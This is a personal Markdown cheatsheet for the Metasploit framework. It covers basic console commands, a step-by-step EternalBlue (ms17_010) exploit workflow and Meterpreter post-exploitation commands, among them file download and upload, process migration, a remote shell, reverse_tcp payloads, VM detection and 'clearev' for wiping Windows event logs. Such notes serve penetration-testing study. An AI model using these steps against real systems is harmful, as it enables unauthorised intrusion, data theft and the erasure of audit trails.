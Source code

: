 # Metasploit
*Personal cheatsheet*<br/> <br/>
## Basic commands
```help``` or ```?```<br/>
```search```&emsp;Search modules<br/>
```use```&emsp;Select a module<br/>
```info```&emsp;Display info about a specific module<br/>
```options```&emsp;List options you can set<br/>
```advanced```&emsp;Display advanced options for a specific module<br/>
```show```&emsp;Show options in a specific category<br/>
```connect <host> <port> -z``` to try to connect to a remote host, then return. To test its reachability<br/>
```spool <filepath>``` to save both commands and screen output of metasploit
## First steps w/ Metasploit
### ```Eternalblue```
```search eternalblue```<br/>
```use exploit/windows/smb/ms17_010_eternalblue``` to select the module<br/>
```show options```<br/>
```set``` to set a value to a module options<br/>
&nbsp;&nbsp;&nbsp;&nbsp;*ex:* ```set SMBPass username```<br/>
```setg``` to set a global value<br/>
```unset``` to change the value of a var. to "null"
```get``` to view tha value of single variables<br/>
```show payloads``` to list compatible payloads<br/>
```set PAYLOAD <index>``` to select the desired payload, ```index``` *being the id of the playload from* ```show payloads```<br/>
```exploit``` to run the exploit once you've configured all the desired options<br/>
```sessions``` to list all active sessions<br/>
```session -i <index>``` to go into interactive mode with a session, ```index``` *being the id of the session from* ```sessions```<br/>
### ```Meterpreter```
Once you've run an exploit, ideally it'll give you either a regular command shell or a meterpreter shell.<br/>
```meterpreter``` allows you to do various things to **interact w/ the machine**, cf. [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) for the complete list of cmds.<br/>
```download <filepath>``` to dl a file from the remote machine. *NB: you'll need to use **double slashes** for Windows environment*<br/>
```upload <local_file_location> <remote_file_location>``` to upload a file to the machine. *Just like download, you'll need to use **double slashes***<br/>
```ps``` to list **running process**.<br/>
```migrate [<new_pid>]``` is used to **"migrate" from the current process to another** process, *it's possible to specify the PID you'll like to migrate to by specifying it ```<new_pid```*<br/>
```ls``` list files in the current directory.<br/>
```execute``` to execute a command on the remote host.<br/>
```shell``` will start an interactive shell on the remote host.<br/>
```search``` to find files on the remote host.<br/>
```cat``` to display the content of a file.<br/>
```background``` will put your meterpreter shell in background, *to return to the meterpreter shell* ```session -i <session_id>```<br/>
```clearev``` will clear the **Application, System, and Security logs** on a **Windows system**.<br/>
```getuid``` will return the user we're currently connected as

<br/>

## Usefulls modules / payloads
```set PAYLOAD windows/meterpreter/reverse_tcp``` very common reverse shell
```run post/windows/gather/checkvm``` to check if the remote host is running on a VM or not

